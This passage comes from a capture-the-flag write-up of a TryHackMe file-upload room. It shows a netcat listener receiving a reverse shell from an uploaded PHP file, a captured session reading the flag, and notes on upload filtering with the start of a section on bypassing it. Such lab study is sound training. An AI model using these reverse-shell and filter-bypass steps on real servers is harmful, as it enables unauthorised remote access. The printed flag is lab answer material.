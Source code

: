 then open a netcat listener in terminal using 
```bash
nc -lvnp 1234
```

then go to /resources/shell.php
nothing loads on the site however open the terminal with nc listener, a reverse shell is seen now just do whoami and then navigate to /var/www and cat flag.txt to get the flag

```bash
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.97.222] from (UNKNOWN) [10.10.25.54] 41296
Linux f300b6aced54 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 05:39:07 up 54 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ cd /var/www
$ ls
flag.txt
html
$ cat flag.txt
THM{YWFhY2U3ZGI4N2QxNmQzZjk0YjgzZDZk}
$ 
```

**FLAG - `THM{YWFhY2U3ZGI4N2QxNmQzZjk0YjgzZDZk}`**

## Filtering
Client-side filtering by itself is a highly insecure method of verifying that an uploaded file is not malicious.
server side filtering -As the code is executed on the server, in most cases it will also be impossible to bypass the filter completely; instead we have to form a payload which conforms to the filters in place, but still allows us to execute our code.
###### types of filtering
1. extension validation  - filters that check extensions blacklist or whitelist extensions
2. file type filtering - to verify contents of the file
	- MIME((Multipurpose Internet Mail Extension) validation - MIME type is specified in the header of the request
		eg: Content-Type: image/jpeg
	- Magic number validation - The "magic number" of a file is a string of bytes at the very beginning of the file content which identify the content. basically file signatures.
3. File length filtering - prevents huge files from being uploaded
4. File name filtering - no repetition of names, no special characters/ control characters
5. File content filtering - scan contents of file

### Bypassing client side filtering
There are four easy ways to bypass your average client-side file upload filter:
